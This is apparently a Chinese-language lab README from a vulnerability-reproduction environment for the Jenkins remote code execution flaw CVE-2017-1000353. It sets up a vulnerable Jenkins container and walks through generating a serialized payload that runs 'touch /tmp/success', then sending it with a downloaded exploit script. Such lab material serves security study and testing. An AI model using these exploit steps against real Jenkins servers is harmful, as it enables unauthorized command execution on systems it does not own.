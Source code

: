 # Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

## 原理

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

执行如下命令启动jenkins 2.46.1：

```
docker compose up -d
```

等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

## 测试过程

### 步骤一、生成序列化字符串

参考<https://github.com/vulhub/CVE-2017-1000353>，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![](1.png)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![](2.png)
